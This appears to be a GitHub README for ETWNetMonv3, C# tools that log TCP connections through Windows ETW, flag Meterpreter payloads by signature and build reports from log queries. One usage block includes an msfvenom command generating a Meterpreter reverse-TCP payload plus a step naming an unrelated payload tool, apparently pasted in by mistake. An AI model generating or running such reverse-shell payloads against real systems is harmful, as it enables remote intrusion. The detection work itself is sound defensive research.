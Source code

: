 # ETWNetMonv3
## ETWNetMonv3 is simple C# code for Monitoring TCP Network Connection via ETW 
-----------------
"ETWNetMonv3.exe" is Windows App for read/watching ETW Logs (which made by ETWNetMonv3Agent.exe).

"ETWNetMonv3Agent.exe" is ETW Agent C# code and with this simple code you can have realtime TCPv4/v6 Connection Logs also with this tool you can Detect Meterpreter Payload via Signature (with switch SCAN) But this Signature worked very well only on Msfv4 (tested on Kali 2018, msf v4.17), Metasploit v6 (msf6) signature is chanaged so this old signature will not work on Msf6 ;)   

"ETWNetMon3Log.exe" is Command base tool for make XML/HTML report via "Queries" from ETW Logs (which made by ETWNetMonv3Agent.exe tool).

Note; this code was for (eBook Chapter-15), so i will publish pdf file for Part1 of ch15, and C# code for "ETWNetMonv3.exe" will publish with pdf (soon), but  "ETWNetMonv3Agent.cs" & "ETWNetMon3Log.cs" Codes is ready and you can use them and both PE files should be in the "same folder" because of log file "EtwNetMonv3logs.txt". (both codes need to work with this file, this log file made by Agent & with ETWNetMon3Log.exe you can make HTML report from this file by simple Queries...


 1. ETWNetMonv3.exe Windows App (i will publish Code for this tool + pdf Chapter15 soon) 
 
 Note: in win10 you should run this tool with Admin ("Run as Admin")
 
   ![](https://github.com/DamonMohammadbagher/ETWNetMonv3/blob/main/Pic/ETWNetMonv3.png)

 -----------------------------------------------------------    
  
  2. ETWNetMonv3Agent.cs (ETW Agent)
 
 usage: 
    
    step1: [win] ETWNetMonv3Agent.exe [SCAN]/[DBG]
    EXAMPLE: [win] ETWNetMonv3Agent.exe
    EXAMPLE: [win (Run As Admin)] ETWNetMonv3Agent.exe SCAN
    Note: you need Run As Admin only for switch SCAN , this agent will make log file "EtwNetMonv3logs.txt"

   ![](https://github.com/DamonMohammadbagher/ETWNetMonv3/blob/main/Pic/ETWNetMonv3_02.png)

 -----------------------------------------------------------      
  
  3. ETWNetMon3Log.cs (Command base tool for make XML/HTML report via "Queries" from ETW Log file EtwNetMonv3logs.txt)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_ImageGetDigestStream.exe  [payload...]
    example: ETWNetMonv3Log.exe "fc,48,00,87,00,...."
    syntax  1: switch XML, All ETW records from text [EtwNetMonv3logs.txt] will save to xml file (convert all records to xml)");
    example 1: ETWNetMonv3Log.exe xml filename.xml ");
    example 2: ETWNetMonv3Log.exe html "rport >=80 OR events LIKE '*Established*' AND events LIKE '*connect complete*'\"");
    example 2: ETWNetMonv3Log.exe html "events LIKE '*requested to connect*'\"");
    example 2: ETWNetMonv3Log.exe html "state LIKE '*synsent*'\"");
    example 2: ETWNetMonv3Log.exe html "events LIKE '*'\"");
    example 2: ETWNetMonv3Log.exe html "rhost LIKE '192.168*' or lhost LIKE '192.168.1*'\"");
    example 2: ETWNetMonv3Log.exe html "rport <=80 OR lport >=50000\"");
    example 2: ETWNetMonv3Log.exe html "pname LIKE '*.exe*'\"");
    example 2: ETWNetMonv3Log.exe html "events LIKE '*C:\\*'\"");
    example 2: ETWNetMonv3Log.exe html "PID = 1452"
   ![](https://github.com/DamonMohammadbagher/ETWNetMonv3/blob/main/Pic/ETWNetMonv3_01.png)

 -----------------------------------------------------------    
    
    
    
<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FETWNetMonv3"/></a></p>
